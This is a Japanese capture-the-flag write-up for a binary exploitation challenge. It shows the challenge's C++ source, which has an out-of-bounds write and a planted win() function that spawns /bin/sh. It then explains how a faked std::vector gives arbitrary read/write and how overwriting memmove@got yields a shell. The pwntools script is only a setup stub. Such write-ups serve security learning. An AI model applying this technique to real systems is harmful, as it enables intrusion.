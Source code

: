 ```py
```

## Takahashi
<secondary-label ref="user"/>
<secondary-label ref="rce"/>
<secondary-label ref="aarw"/>

Takahashiは誰ですか?
この問題はAtcorderのソルバを題材にした問題のようです.

```CPP
int Q;
int QueryType[100009], x[100009];
priority_queue<int, vector<int>, greater<int>> T;
int main() {
	cin >> Q;
	for (int i = 1; i <= Q; i++) {
		cin >> QueryType[i];
		if (QueryType[i] == 1) cin >> x[i];
	}
	for (int i = 1; i <= Q; i++) {
		if (QueryType[i] == 1) T.push(x[i]);
		if (QueryType[i] == 2) cout << T.top() << endl;
		if (QueryType[i] == 3) T.pop();
	}
	return 0;
}
void win() { std::system("/bin/sh"); } // Gift :)
```

自明なoobがあり`.bss`領域でのoverflowが発生します.また,intのvector配列もグローバルに宣言されておりこちらも`.bss`に存在します.

待ってください,私達はDown Under CTF 2024のVector Overflowを思い出しました.この問題は私も[writeup:DUCTF Vector Overflow](helloWorld.md)を書きました
```CPP
typename _Tp_alloc_type::pointer _M_start;
typename _Tp_alloc_type::pointer _M_finish;
typename _Tp_alloc_type::pointer _M_end_of_storage;
```
C++においてVector型はこのように確保されます.データの実態はヒープ領域に確保されますがoobによって要素を書き換えることができればAAR/Wプリミティブを作成できます.

`Partial RELRO`であることからGot overwriteができそうです.Win関数が提供されているためアドレス解決されていなかった`memmove@got`をwinアドレスに書き換えシェルを取りました.

`_M_end_of_storage`が枯渇するとvectorは新しい領域を今の領域の2倍のサイズでアロケートして`memmove`します.
`memmove@got`に4バイト書き込むのに十分なvector構造体を偽装しました.

```py
from pwn import *
import sys

e = ELF("a.out",checksec=False)
libc = ELF("/usr/lib/x86_64-linux-gnu/libc.so.6",checksec=False)
ld = ELF("/usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2",checksec=False)

nc = "nc 34.170.146.252 55287"
HOST = nc.split(" ")[1]
PORT = int(nc.split(" ")[2])

dbg = 1
g_script = """
    #set max-visualize-chunk-size 0x300
    b *0x000000000040138d
    b *0x0000000000401426
"""

```